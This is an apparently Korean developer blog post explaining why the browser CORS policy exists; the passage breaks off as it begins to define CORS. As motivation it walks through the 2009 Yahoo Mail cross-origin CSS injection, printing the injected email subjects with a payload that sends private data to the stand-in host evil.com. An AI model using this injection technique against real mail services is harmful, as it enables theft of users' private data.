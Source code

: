 > 🚨 Access to fetch at ‘https://api.lubycon.com/me’ from origin ‘http://localhost:3000’ has been blocked by CORS policy: No ‘Access-Control-Allow-Origin’ header is present on the requested resource. If an opaque response serves your needs, set the request’s mode to ‘no-cors’ to fetch the resource with CORS disabled.

개발을 하다보면 한번쯤 마주쳤을 메시지 입니다.
CORS를 위반했고, 'Access-Control-Allow-Origin' 헤더를 수정하거나 cors가 필요없는 요청을 하라는 해결방법을 알려주고 있습니다. 

**여기서 CORS는 무엇일까요?**

개념을 이해하는 방법 중 가장 좋은 방법은 왜 이 개념이 생겼는지 알아보는게 좋습니다.


## 왜 CORS가 생겼을까?
브라우저는 거의 30년 동안 다른 사이트의 이미지를 포함할 수 있었습니다. 다른 사이트의 허락을 받을 필요 없이 그냥 할 수 있었습니다. 이미지뿐만 아니라 다른 자원도 가져오는 것이 가능했습니다.

```html
<script src="…"></script>
<link rel="stylesheet" href="…" />
<iframe src="…"></iframe>
<video src="…"></video>
<audio src="…"></audio>
```

하지만 이런 방식은 1994년에 HTTP 쿠키 등장으로 복잡해지기 시작했습니다. **HTTP 헤더에 인증 정보가 포함이 되었기 때문입니다.**

서버는 HTTP 헤더의 인증 정보를 사용해서 사용자를 특정합니다. 

공격자는 이런 특정을 이용해서 취약점을 찾기 시작했습니다. 결과적으로, 2009년 야후 메일의 취약점이 밝혀졌습니다.

먼저, 공격자는 `');}`를 포함한 제목을 유저게 보낸 후 `{}html{background:url('//evil.com/?:`가 포함된 제목의 메일을 보냅니다.

그럼, 메일이 아래와 같은 구조로 전달될 것 입니다.
```html
…
<li class="email-subject">Hey {}html{background:url('//evil.com/?</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">Yo ');}</li>
…
```

위 구조에서 공격자가 실행되기 원하는 코드는 유효한 CSS 구문 분석 대상 사이에 끼어 있습니다.

다음에 공격자는 사용자가 다음을 포함하는 페이지를 방문 하도록 유도합니다.

```html
<link rel="stylesheet" href="https://m.yahoo.com/mail" />
```

해당 자원이 `yahoo.com`의 쿠키를 이용해 로드되면 CSS 파서는 미리 심어두었던 메일 제목을 구문 분석하여 개인 정보를 `evil.com`에 보내게 됩니다.

서로 다른 사이트에 접근을 허용했을 때 발생할 수 있는 문제는 이것 말고도 다양합니다.

## 그래서 CORS 란?
위에서 서로 다른 사이트에 접근을 허용했을 때 문제가 발생한다는 것을 알게 되었습니다. 이런 문제를 해결하기 위한 방법 중 하나가 **CORS** 입니다.
